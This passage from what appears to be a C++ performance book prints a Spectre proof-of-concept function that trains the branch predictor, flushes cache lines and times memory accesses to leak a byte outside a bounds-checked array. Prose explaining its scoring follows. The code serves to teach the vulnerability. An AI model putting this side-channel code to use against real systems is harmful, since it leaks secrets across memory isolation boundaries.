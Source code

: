 The following function attacks a single byte outside of the data array:

\hspace*{\fill} \\ %
\noindent
\textbf{spectre.C}
\begin{lstlisting}[style=styleCXX]
char spectre_attack(const char* data,
                    size_t size, size_t evil_index) {
	constexpr const size_t num_val = 256;
	struct timing_element { char s[1024]; };
	static timing_element timing_array[num_val];
	::memset(timing_array, 1, sizeof(timing_array));
	std::array<long, num_val> latencies = {};
	std::array<int, num_val> scores = {};
	size_t i1 = 0, i2 = 0; // Two highest scores
	std::unique_ptr<size_t> data_size(new size_t(size));
	constexpr const size_t n_iter = 1000;
	for (size_t i_iter = 0; i_iter < n_iter; ++i_iter) {
		for (size_t i = 0; i < num_val; ++i) {
			_mm_clflush(timing_array + i); // Un-cache the array
		}
		const size_t ok_index = i_iter % size;
		constexpr const size_t n_read = 100;
		for (size_t i_read = 0; i_read < n_read; ++i_read) {
			_mm_clflush(&*data_size);
			for (volatile int z = 0; z < 1000; ++z) {} // Delay
			const size_t i = (i_read & 0xf) ? ok_index :
			evil_index;
			if (i < *data_size) {
				access_memory(timing_array + data[i]);
			}
		}
		for (size_t i = 0; i < num_val; ++i) {
			const size_t i_rand = (i*167 + 13) & 0xff;
			// Randomized
			const timing_element* const p = timing_array +
			i_rand;
			const long t0 = get_time();
			access_memory(p);
			latencies[i_rand] = get_time() - t0;
		}
		score_latencies(latencies, scores, ok_index);
		std::tie(i1, i2) = best_scores(scores);
		constexpr const int threshold1 = 2, threshold2 = 100;
		if (scores[i1] >
		scores[i2]*threshold1 + threshold2) return i1;
	}
	return i1;
}
\end{lstlisting}

For each element of the timing array, we will compute a score, which is the number of times this element was the fastest one to access. We also track the second-fastest element, which should be just one of the regular, slow to access, array elements. We keep doing it for many iterations: ideally, until we get the result, but, in practice, we have to give up at some point.

Once a large enough gap opens between the best score and the second-best score, we know that we have reliably detected the fast element of the timing array, which is the one indexed by the value of the secret byte (if we reach the maximum number of iterations without getting a reliable answer, the attack has failed, although we can try to use the best guess we have so far).

